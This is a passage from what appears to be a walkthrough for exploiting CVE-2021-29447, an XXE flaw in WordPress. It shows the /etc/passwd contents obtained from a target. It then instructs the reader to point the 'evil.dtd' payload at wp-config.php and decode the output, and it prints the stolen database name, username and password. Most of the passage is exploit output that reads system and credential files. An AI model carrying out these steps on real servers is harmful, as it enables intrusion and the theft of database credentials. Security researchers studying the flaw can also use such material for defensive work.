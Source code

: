   ```
  syslog:x:104:108::/home/syslog:/bin/false
  _apt:x:105:65534::/nonexistent:/bin/false
  messagebus:x:106:110::/var/run/dbus:/bin/false
  uuidd:x:107:111::/run/uuidd:/bin/false
  stux:x:1000:1000:CVE-2021-29447,,,:/home/stux:/bin/bash
  sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
  mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
  ```

- Now repeat the same thing again, just change the `resource` from `/etc/passwd` to `/var/www/html/wp-config.php` in the payload `evil.dtd` or whatever you named it. After decoding the string you should have full database info.

  ```
  // ** MySQL settings - You can get this info from your web host ** //
  /** The name of the database for WordPress */
  define( 'DB_NAME', 'wordpressdb2' );
  
  /** MySQL database username */
  define( 'DB_USER', 'thedarktangent' ); 
  
  /** MySQL database password */
  define( 'DB_PASSWORD', 'sUp3rS3cret132' );
  
  /** MySQL hostname */
  define( 'DB_HOST', 'localhost' );
  
  /** Database Charset to use in creating database tables. */
  define( 'DB_CHARSET', 'utf8' );
  
  /** The Database Collate type. Don't change this if in doubt. */
  define( 'DB_COLLATE', '' );
  
  /**#@+
   * Authentication Unique Keys and Salts.
   *
   * Change these to different unique phrases!
   * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
   * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
   *
   * @since 2.6.0
   */
  define( 'AUTH_KEY',         'put your unique phrase here' );
  define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
  define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
  define( 'NONCE_KEY',        'put your unique phrase here' );
  define( 'AUTH_SALT',        'put your unique phrase here' );
  define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
  define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
  define( 'NONCE_SALT',       'put your unique phrase here' );
  
  /**#@-*/
  
  /**
   * WordPress Database Table prefix.
   *
   * You can have multiple installations in one database if you give each
   * a unique prefix. Only numbers, letters, and underscores please!
   */
  $table_prefix = 'wptry_';
  
  /**
  ```